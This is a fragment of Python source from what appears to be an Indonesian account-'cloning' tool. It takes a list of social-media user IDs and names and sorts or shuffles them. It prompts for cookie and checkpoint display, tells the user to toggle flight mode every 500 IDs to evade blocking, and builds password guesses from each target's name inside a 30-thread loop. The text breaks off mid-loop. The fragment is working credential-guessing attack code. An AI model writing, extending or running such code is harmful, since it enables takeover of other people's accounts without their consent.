 #-------------[ PENGATURAN-IDZ ]---------------#

def setting():
	linex()
	print(" \x1b[38;5;196m[\x1b[37m1\x1b[38;5;196m]\x1b[37m ONLY OLD IDZ")
	print(" \x1b[38;5;196m[\x1b[37m2\x1b[38;5;196m]\x1b[37m ONLY NEW IDZ")
	print(" \x1b[38;5;196m[\x1b[37m3\x1b[38;5;196m]\x1b[37m BOTH MIX IDZ")
	linex()
	hu = input(' \x1b[38;5;196m[\x1b[37m•\x1b[38;5;196m]\x1b[37m CHOOSE : ')
	if hu in ['1','01']:
		for tua in sorted(id):
			id2.append(tua)
	elif hu in ['2','02']:
		muda=[] 
		for bacot in sorted(id):
			muda.append(bacot)
		bcm=len(muda)
		bcmi=(bcm-1)
		for xmud in range(bcm):
			id2.append(muda[bcmi])
			bcmi -=1
	elif hu in ['3','03']:
		for bacot in id:
			xx = random.randint(0,len(id2))
			id2.insert(xx,bacot)
	else:
		for bacot in id:
			xx = random.randint(0,len(id2))
			id2.insert(xx,bacot)
	linex()
	method.append('mobile')
	global cekap,askc,scp
	askc += input(' \x1b[38;5;196m[\x1b[37m•\x1b[38;5;196m]\x1b[37m SHOW COOKIES : ')
	scp += input(' \x1b[38;5;196m[\x1b[37m•\x1b[38;5;196m]\x1b[37m SHOW CHECKPOINT : ')
	passwrd()
	exit() 

#-------------------[ BAGIAN-WORDLIST ]------------#

def passwrd():
	os.system('clear')
	banner()
	info()
	print(f' \x1b[38;5;196m[\x1b[37m•\x1b[38;5;196m]\x1b[37m TOTAL SCANNABLE IDS    :',str(len(id)))
	print(" \x1b[37m\x1b[38;5;196m[\x1b[37m•\x1b[38;5;196m]\x1b[37m YOU STARTED CLONING AT : "+time.strftime("%H:%M")+" "+ tag)
	linex()
	print(f' \x1b[38;5;196m>>\x1b[37m USE FLIGHT MODE EVERY 500 IDS ')
	linex()
	with tred(max_workers=30) as pool:
		for yuzong in id2:
			idf,nmf = yuzong.split('|')[0],yuzong.split('|')[1].lower()
			pwv = []
			frs = nmf.split(' ')[0]
			try:
				lst = nmf.split(' ')[1]
			except:
				lst = ''
			if len(nmf)<6:
				if len(frs)<3:
					pass
				else:
					pwv.append(nmf)
					pwv.append(frs+lst)
					pwv.append(frs+'@'+lst)